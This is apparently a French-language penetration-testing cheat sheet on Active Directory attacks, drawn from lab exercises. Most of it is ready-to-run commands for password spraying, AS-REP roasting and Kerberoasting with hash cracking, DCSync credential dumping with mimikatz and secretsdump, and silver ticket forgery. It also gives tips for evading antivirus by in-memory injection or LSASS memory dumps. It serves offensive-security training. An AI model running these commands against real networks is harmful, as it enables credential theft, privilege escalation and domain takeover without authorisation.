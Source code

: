# Attaque de mot de passe
net accounts politiques de mot de passe
Tester creds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString = "LDAP://" + $PDC + "/" + $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Spray
### Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Utile pour savoir si
netexec smb 192.168.213.75 -u user.txt -p 'Nexus123!' -d corp.com --continue-on-success
#on peut ajouter une plage d'IP
netexec smb 192.168.213.75/24 -u pete -p "Nexus123!" -d corp.com --continue-on-success
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
### Windows
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

### [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
Peut générer une liste d'usagers si machine relié au domaine.
```powershell-session
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
`-UserList` spécifier une liste d'usager

## Obtenir un TGT
Requière un nom et mot de passe
utiliser kinit

# AS-REP Roasting
Permet d'obtenir le hash d'un mot de passe par un TGT avec seulement un AS-REP du controlleur de domaine.
Doit avoir:
*  un compte
   * Le compte doit avoir Do not require Kerberos preauthentication actif
*  connaître le nom de domaine

## Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Extraire le AS-REP, cherche tous les usagés sans preauth après s'être connecté
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete:Flowers1
#Extraire le AS-REP si on a une liste sans être connecté
impacket-GetNPUsers jab.htb/ -dc-ip <ipaddress> -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
#crack le TGT
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Windows
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#pas grand choses à fournir si on est déjà authentifié
.\Rubeus.exe asreproast /nowrap /format:hashcat
#ensuite copier le hash et cracker sur linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## détection des usagers sans preauthentification
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#powerview
Get-DomainUser -PreauthNotRequired
#linux
impacket-GetNPUsers -dc-ip 192.168.213.70 corp.com/pete
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Si il n'y a pas d'usager sans preauth, mais que nous avons GenericWrite ou GenericAll sur un autre compte, on peut modifier cette valeur.

# Kerberoasting
Demande d'un ticket de service, décrypté d'une quelquonque façon, on obtient le hash du mot de passe du Service Principal Name (SPN)

### Windows
``` powershell
#énumération
setspn.exe -Q */*
#Extraire TGS-REP. Si authentifié, identifie automatiquement les SPN
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /nowrap /user:testspn
#utiliser /domain:<nom> pour abuser des trusts
/tgtdeleg #force encryption RC4
```
#### semi-manuel
``` powershell
#ajouter les classes .net
Add-Type -AssemblyName System.IdentityModel
#requête TGS et charge dans la session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
#lancer mimikatz et exporter le ticket en base64 sinon cela crée un .kirbi.kirbi
base64 /out:true
kerberos::list /export
#décrypter
echo "<base64 blob>" |  tr -d \\n | base64 -d > tgs.kirbi
kirby2john tgs.kirbi
# Peut-être pas besoin de ça???
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
#### powerview
```powershell-session
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
### Linux
``` shell
##Lister les SPN
impacket-GetUserSPNs -dc-ip 192.168.50.70 corp.com/pete
impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
-request #Extrait les TGS pour tous les services
-request-user <SPN> #TGS pour un service
-outputfile <Fichier>
-target-domain <domain> #Pour attaquer à travers les domaines.
```

| *Hashcat mode* | *Encryption Name* | *KRB tag*|
| --- | --- | --- |
| 13100 | RC4 | `$23$` |
| 19600 | AES-128 | `$17$` |
| 19700 | AES-256 | `$18$` |

Efficace si le service roule sous un compte de service. Si le SPN roule dans le contexte d'un compte d'ordinateur, un compte de service géré ou un compte de service de groupe géré le mot de passe sera aléatoire et pratiquement incraquable.
Si on a GenericWrite ou GenericAll persmissions sur un compte, on peut mettre un SPN dessus, faire une requête pour extraire le hash. Plus furtif que changer le mot de passe.

# Synchronization de controlleur de domaines
Directory Replication Service (DRS) remote protocol utilise la réplication pour synchroniser les divers contolleurs de domaine. Contolleur de domaine peut demander mise à jour pour objet avec API IDL_DRSGetNCChanges
Vérifie seulement si le SID a les bons privilièges. (Replicating Directory Changes, Replicating Directory Changes All,and Replicating Directory Changes in Filtered ) Par défaut: 
* Domain admins
* Enterprise admins
* administrators
## Mimikatz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:beyond\Administrator
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## impacket-secretsdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.250.70
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Silver Tickets
Forger son propre ticket de service
le ticket n'est pas vérifié par l'application
Privileged Account Certificate (PAC) validation force le service à vérifier l'utilisateur. Ce n'est pas actif par défaut.
Le service détermine les droits selon ce qui se trouve dans le ticket
Si le SPN est utilisé sur plusieurs services, alors ce ticket argent peut être utilser sur les autres.

Doit avoir:
* SPN password ou hash 
   * peut-être mimikatz si admin local et service loggé localement
* Domain SID
   * whoami /user (**S-1-5-21-1987370270-658905905-1781884369**-1105)
* Target SPN
	* ex: HTTP/web04.corp.com:80
	
Avec mimikatz:
user jeffadmin parcequ'on peut, pourrait être n'importe qui
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**klist** pour confirmer nos tickets
On peut maintenant accéder à la page de WEB04

# Mimikatz
Peut exporter des tickets (TGT ou TGS) sur le disque dur ou vers le processus LSASS
sekurlsa::tickets
sekurlsa::logonpasswords
Mimikatz est facilement détecté. utiliser des techniques d'évitement d'antivirus comme injecter directement en mémoire avec powershell, ou utiliser Task Manager pour extraire la mémoire du processus LSASS pour l'analyser sur une autre machine.
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/
https://fuzzysecurity.com/tutorials/18.html
